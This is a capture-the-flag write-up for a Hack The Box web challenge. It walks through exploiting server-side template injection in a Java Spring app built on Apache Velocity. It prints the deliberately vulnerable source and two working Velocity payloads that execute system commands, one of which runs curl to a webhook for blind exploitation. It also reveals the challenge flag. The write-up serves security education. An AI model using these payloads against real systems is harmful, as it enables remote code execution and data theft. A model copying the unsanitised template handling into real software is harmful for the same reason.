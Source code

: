 # Challenge source file
URL: [https://1drv.ms/u/c/4ab09e7ce6bb4141/EfXqEQZSRPZDgxaQe8LG4cEBwVpGpE4wNO0b8Di3_7CL7w?e=ivY54A](https://1drv.ms/u/c/4ab09e7ce6bb4141/EfXqEQZSRPZDgxaQe8LG4cEBwVpGpE4wNO0b8Di3_7CL7w?e=ivY54A)

# Difficulty
Easy

# Author
Hack The Box team

# Approach
- The website is a machine that can convert English to a language called Voxalith (idk what is it). It also funny tho:
  ![image](https://github.com/NoSpaceAvailable/HackTheBox-Cyber-Apocalypse-CTF-2024/assets/143888307/017ecdfd-522c-4edf-a7eb-5a57bab00b39)

- It's time to read the source:
- In *entrypoint.sh*, the flag is at /, but it was renamed to a random name, so this challenge require us to perform RCE:
```
#!/bin/bash

# Change flag name
mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt

# Secure entrypoint
chmod 600 /entrypoint.sh

# Start application
/usr/bin/supervisord -c /etc/supervisord.conf
```

- Let's take a look at *Main.java*:
  
```java
import java.io.*;
import java.util.HashMap;
import org.springframework.boot.*;
import org.springframework.boot.autoconfigure.*;
import org.springframework.stereotype.*;
import org.springframework.web.bind.annotation.*;

import org.apache.velocity.VelocityContext;
import org.apache.velocity.runtime.RuntimeServices;
import org.apache.velocity.runtime.RuntimeSingleton;
import org.apache.velocity.runtime.parser.ParseException;

@Controller
@EnableAutoConfiguration
public class Main {

	@RequestMapping("/")
	@ResponseBody
	String index(@RequestParam(required = false, name = "text") String textString) {
		if (textString == null) {
			textString = "Example text";
		}

		String template = "";

        try {
            template = readFileToString("/app/src/main/resources/templates/index.html", textString);
        } catch (IOException e) {
            e.printStackTrace();
        }

		RuntimeServices runtimeServices = RuntimeSingleton.getRuntimeServices();
		StringReader reader = new StringReader(template);

		org.apache.velocity.Template t = new org.apache.velocity.Template();
		t.setRuntimeServices(runtimeServices);
		try {

			t.setData(runtimeServices.parse(reader, "home"));
			t.initDocument();
			VelocityContext context = new VelocityContext();
			context.put("name", "World");

			StringWriter writer = new StringWriter();
			t.merge(context, writer);
			template = writer.toString();

		} catch (ParseException e) {
			e.printStackTrace();
		}

		return template;
	}

	public static String readFileToString(String filePath, String replacement) throws IOException {
        StringBuilder content = new StringBuilder();
        BufferedReader bufferedReader = null;

        try {
            bufferedReader = new BufferedReader(new FileReader(filePath));
            String line;
            
            while ((line = bufferedReader.readLine()) != null) {
                line = line.replace("TEXT", replacement);
                content.append(line);
                content.append("\n");
            }
        } finally {
            if (bufferedReader != null) {
                try {
                    bufferedReader.close();
                } catch (IOException e) {
                    e.printStackTrace();
                }
            }
        }

        return content.toString();
    }

	public static void main(String[] args) throws Exception {
		System.getProperties().put("server.port", 1337);
		SpringApplication.run(Main.class, args);
	}
}

```

- Generally say, the code above receive user input, then render it using Velocity template engine and combine the result with *index.html*. Notice that the user input is not sanitized, so there is a possible SSTI attack here.
- I tried to fuzz with some basic payload to prove my assumtion. And this is what happened:

  ![image](https://github.com/NoSpaceAvailable/HackTheBox-Cyber-Apocalypse-CTF-2024/assets/143888307/5a280565-9e5d-4145-bb79-68734f7720bb)

- It proved that I can perform a SSTI attack here.

# Problem-solving
- I'm not familiar with Java and Velocity either, so I search for writeups and Velocity's documentation. After a few hours, I ran into [this post](https://www.linkedin.com/pulse/apache-velocity-server-side-template-injection-marjan-sterjev)
- The payload which I used during the competition:
```
#set($s="")
#set($stringClass=$s.getClass())
#set($stringBuilderClass=$stringClass.forName("java.lang.StringBuilder"))
#set($inputStreamClass=$stringClass.forName("java.io.InputStream"))
#set($readerClass=$stringClass.forName("java.io.Reader"))
#set($inputStreamReaderClass=$stringClass.forName("java.io.InputStreamReader"))
#set($bufferedReaderClass=$stringClass.forName("java.io.BufferedReader"))
#set($collectorsClass=$stringClass.forName("java.util.stream.Collectors"))
#set($systemClass=$stringClass.forName("java.lang.System"))
#set($stringBuilderConstructor=$stringBuilderClass.getConstructor())
#set($inputStreamReaderConstructor=$inputStreamReaderClass.getConstructor($inputStreamClass))
#set($bufferedReaderConstructor=$bufferedReaderClass.getConstructor($readerClass))
#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("whoami"))
#set($null=$process.waitFor() )
#set($inputStream=$process.getInputStream())
#set($inputStreamReader=$inputStreamReaderConstructor.newInstance($inputStream))
#set($bufferedReader=$bufferedReaderConstructor.newInstance($inputStreamReader))
#set($stringBuilder=$stringBuilderConstructor.newInstance())
#set($output=$bufferedReader.lines().collect($collectorsClass.joining($systemClass.lineSeparator())))
$output
```

![image](https://github.com/NoSpaceAvailable/HackTheBox-Cyber-Apocalypse-CTF-2024/assets/143888307/0ce9f647-3799-45cb-a79c-d0c2c9d809a0)

- I can *Cat The Flag* now.

- After the competition end, the challenge author uploaded their payload to perform blind SSTI. During the competition, I also tried to perform blind SSTI but it's not working. Idk what was happened, but this is a working payload from author (and better than above):
```
#set($engine="")
#set($proc=$engine.getClass().forName("java.lang.Runtime").getRuntime().exec("curl <webhook here>"))
#set($null=$proc.waitFor())
${{null}}
``` 

- Flag: HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!}
